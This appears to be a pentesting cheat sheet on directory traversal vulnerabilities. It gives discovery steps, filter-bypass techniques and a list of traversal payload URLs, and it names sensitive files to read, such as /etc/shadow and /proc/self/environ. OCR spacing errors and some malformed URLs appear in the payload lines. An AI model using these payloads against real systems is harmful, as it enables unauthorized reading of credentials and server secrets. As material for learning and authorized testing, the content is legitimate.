 What is Directory Traversal ?
Directory Traversal is a vulnerability that allows an attacker to read files in the server that is running the app.

How to find Directory Traversal
Black Box Testing
* Map the App
	* Identify all instances where the web application appears to contain the name of a file or directory
	* Identify all functions in the app whose implementation is likely to invole retrieval of data from a server filesystem
* Test identified instances with common directory traversal payloads and observe how the app responds

White Box Testing
* Identify instances where user-supplied input is being passed to file APIs or as parameters to the OS
	* Idenrify instances in a running app first(black-box perspective) and then review the code responsible for the functionality
	* Grep on functions in the code that are known to include and evaluate files on the server and review if they yake user supplied input
	* Use a tool to monitor all filesystem activity on the server. then test each page of the app by inserting a single unique string. Set a filter in your monitoring tool for that specific stirng and idenity all filesystem events contain the sting.

Explioiting Directory Traversal
* Regular Case, .. /.. /.. /.. /.. /.. /etc/passwd or \\..\\WINDOWS\win.ini
* Absolute paths like /etc/passwd
* Traversal sequences stripped non-recursively, ....//....//etc/passwd
* Try to URL encode the payload (Or even double encoding)
* Bypass start of path validation, /var/ww/images/../../etc/passwd
* Bypass file extension validation using null byte. ../../etc/passwd%00.png (Try different extensions for the same thing)

Basic Payloads
* http: //localhost/index.php? page =.. /.. /.. /.. /.. /.. /etc/passwd
* http: //localhost/index.php? page =?page=....//....//etc/passwd
* http: //localhost/index.php? page =?page=../../.htaccess
* http: //localhost/index.php? page =?page=\\..\\WINDOWS\win.ini
* http: //localhost/index.php? page =..%5c/etc/passwd
* http: //localhost/index.php? page =....\\/....\\/....\\/....\\/....\\/etc/passwd
* http: //example.com/index.php?page = ..%252f..%252f..%252fetc%252fpasswd
* http: //example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
* http: //example.com/index.php?page=%252e%252e%252fetc%252fpasswd
* http: //example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

Interesting files to check out  when you find Directory Traversal :
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

Make sure to read the files taht contains info about the plugins/frameworks in the system.
